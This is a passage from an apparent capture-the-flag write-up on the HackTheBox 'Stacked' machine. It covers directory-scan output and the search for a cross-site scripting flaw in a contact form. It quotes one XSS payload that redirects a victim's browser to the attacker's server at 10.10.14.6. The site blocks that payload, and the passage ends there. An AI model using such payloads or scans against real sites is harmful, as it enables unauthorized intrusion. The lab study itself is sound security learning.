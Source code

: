     403        9l       28w      286c http://portfolio.stacked.htb/server-status
    [####################] - 1m    149995/149995  0s      found:5       errors:385    
    [####################] - 1m     29999/29999   282/s   http://portfolio.stacked.htb
    [####################] - 1m     29999/29999   284/s   http://portfolio.stacked.htb/files
    [####################] - 1m     29999/29999   287/s   http://portfolio.stacked.htb/assets
    [####################] - 1m     29999/29999   293/s   http://portfolio.stacked.htb/js
    [####################] - 1m     29999/29999   303/s   http://portfolio.stacked.htb/css
    

Each of those 301s just redirects to adding `/` to the end and a 403 in
return.

## Identify LocalStack VHost

### Identify XSS

#### Strategy

This is a cross-site scripting challenge that is quite difficult to identify,
and the kind of thing that only belongs in the Insane level on a HTB machine.
Given that I only have one real way to interact with the site at this point,
I’ll focus on the contact form on portfolio.stacked.htb.

When I submit the form, there’s nothing displayed back to me, but rather it’s
somehow transmitted to a potential user of the site. Thinking about ways to
interact with the user, two come to mind:

  * Sending a link to a page I’m hosting, and using various methods to exploit the user from there.
  * Sending kind of cross-site scripting (XSS) payload that will be handled as HTML/JS on the receiving end, allowing me to run JavaScript and get the browser to take actions on my behalf.

#### Links

I’ll submit various kinds of links to the form. The phone number and email
fields have tight restrictions, so I can’t place a link in them. But I’ll try
the rest. For example:

![image-20210824105617868](https://0xdfimages.gitlab.io/img/image-20210824105617868.png)

I’ll also go into Burp and forward this request to Repeater. There I can get
past the client-side filtering and send links in the other fields.

With a Python webserver watching for any contact, none comes.

#### XSS Fails

Turning to XSS, I tried started with a basic payload that would just redirect
the page to my server:

    
    
    <script>document.location="http://10.10.14.6/referer"</script>
    

On submitting, it pops an error:

![image-20210824111614093](https://0xdfimages.gitlab.io/img/image-20210824111614093.png)
